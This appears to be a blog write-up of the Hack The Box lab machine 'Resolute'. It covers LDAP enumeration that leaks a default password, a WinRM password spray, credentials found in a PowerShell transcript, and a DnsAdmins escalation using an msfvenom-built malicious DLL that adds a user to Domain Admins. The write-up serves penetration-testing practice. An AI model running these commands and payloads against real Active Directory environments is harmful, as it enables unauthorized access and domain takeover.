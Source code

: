 ```yaml
---
layout: single
title: 'Resolute Write-Up: Hack The Box'
excerpt: "Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine."
# classes: wide
categories: [hackthebox]
date: 2020-05-30
tags: [hackthebox, dns, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\resolute\resolute-banner.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "database"  # corresponding Font Awesome icon name (without fa prefix)
toc_sticky: true
---
```

![](\assets\images\htb\resolute\resolute-banner.png)
## TL;DR
Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray using WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine.

## Nmap Port Scan
`nmap -sCV -Pn -n -p- -T4 -oN nmap/full-resolute 10.10.10.169`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 20:36 EDT
Nmap scan report for 10.10.10.169
Host is up (0.029s latency).                      
Not shown: 65511 closed ports                     
PORT      STATE SERVICE      VERSION              
53/tcp    open  domain?                           
| fingerprint-strings:                            
|   DNSVersionBindReqTCP:                                                                                            
|     version                                     
|_    bind                                        
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-27 00:44:46Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                                                                                
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0        
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped                                                                                           
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                          
|_http-title: Not Found    
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
65424/tcp open  unknown

Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## LDAP Enumeration

A default password is shown via the description for user `marko`.
```
Marko Novak, Employees, MegaBank Users, megabank.local                                                             
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user 
cn: Marko Novak                                           
sn: Novak 
description: Account created. Password set to Welcome123!
[TRUNCATED]
sAMAccountName: marko
sAMAccountType: 805306368
userPrincipalName: marko@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local                                            
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927131714.0Z
dSCorePropagationData: 16010101000001.0Z
```

I was unable to get any usage from the `Welcome123!` password and `Marko`, so I created a username list and used Metasploit's WinRM Login module to test the password against the remainder of the accounts.

`ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" '(objectClass=Person)' | grep userPrincipalName | cut -d " " -f 2 | cut -d "@" -f 1 > users.txt`

We got a hit on user `melanie`.
![](\assets\images\htb\resolute\resolute-winrm-scan.png)

## Machine Compromise

I used evil-WinRM to get a shell and grabbed the user flag.
![](\assets\images\htb\resolute\resolute-melanie-login.png)

Looking at the root directory, we see an interesting folder that is hidden. This leads to an file that leaks the user Ryan's password.

*File Location:*
`C:\PStranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

*Line Containing Password Leak:*
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

## Pivoting to DNS Admin

Using Evil-WinRM I logged in with Ryan and noticed he was part of a `Contractors` group. I love Bloodhound, so I used this opportunity to run it to enumerate everything that's going on in the AD structure.

Ryan was a member of the `Contractors` group, but what is interesting is that `Contractors` are a member of `DnsAdmins` group. Privileges!
![](\assets\images\htb\resolute\resolute-bloodhound.png)

After some research, I followed these blog posts that outline a privilege escalation via a feature abuse in AD where a user who is member of the DNSAdmins group or have write privileges to a DNS server object can load an arbitrary DLL with SYSTEM privileges on the DNS server:
[Abusing DNSAdmins privilege for escalation in Active Directory](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html){:target="_blank"}  
[From DnsAdmins to SYSTEM to Domain Compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise){:target="_blank"} 

In accordance with the blog post, I created a malicous DLL that will add Melanie to the Domain Admins group:  
`msfvenom -a x64 -p windows/x64/exec cmd='net group "domain admins" melanie /add /domain' -f dll -o mel.dll`

![](\assets\images\htb\resolute\resolute-dnscmd-entry.png)

## Domain Admin Escalation

Now we  can log in with Melanie and grab the root flag:
![](\assets\images\htb\resolute\resolute-root.png)

Thanks for reading!